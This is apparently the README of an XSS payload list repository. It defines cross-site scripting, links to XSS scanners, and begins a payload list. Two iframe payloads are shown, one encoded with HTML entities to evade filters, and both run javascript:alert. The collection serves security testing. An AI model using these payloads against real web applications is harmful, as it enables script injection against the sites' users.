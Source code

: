 ### 🚀 Cross Site Scripting ( XSS ) Vulnerability Payload List 🚀

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/xss-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/xss-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/xss-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/xss-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/xss-payload-list/1">

##### Overview : 

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of XSS flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### XSS Vulnerability Scanner Tool's :

* [XSStrike](https://github.com/UltimateHackers/XSStrike)

* [BruteXSS Terminal](https://github.com/shawarkhanethicalhacker/BruteXSS)

* [BruteXSS GUI](https://github.com/rajeshmajumdar/BruteXSS)

* [XSS Scanner Online](http://xss-scanner.com/)

* [XSSer](https://tools.kali.org/web-applications/xsser)

* [xsscrapy](https://github.com/DanMcInerney/xsscrapy)  
* [Cyclops](https://github.com/v8blink/Chromium-based-XSS-Taint-Tracking)  

#### XSS Payload List :

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->


<IFRAME SRC="javascript:alert('window.origin');"></IFRAME>
<iframe src=javascript&colon;alert&lpar;document&period;domain&rpar;>
